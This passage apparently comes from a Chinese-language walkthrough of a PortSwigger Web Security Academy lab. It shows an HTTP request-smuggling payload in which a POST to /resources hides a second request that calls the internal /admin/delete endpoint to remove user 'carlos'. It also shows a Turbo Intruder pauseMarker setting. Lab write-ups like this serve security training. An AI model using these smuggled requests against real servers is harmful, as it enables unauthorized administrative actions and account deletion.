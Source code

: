 -   操作属性(/admin/delete)
-   输入的名称(用户名)
-   csrf token

[![](assets/1705301772-b465d8425709135eaf72f9b47ac1c097.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184316-b9714924-b2c9-1.png)  
返回配置界面并使用上述信息构造表单重新发送请求：

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=Dyo9ajteplhUQGufcNGiOcFgfceGOVz9&username=carlos
```

若要防止Turbo Intruder在请求中两次出现后暂停，需要更新pauseMarker参数，使其仅匹配第一组标头的结尾，例如：

```plain
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```

[![](assets/1705301772-c700b3666d9e7308bc21b00c097dfb6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184350-cdebb286-b2c9-1.png)  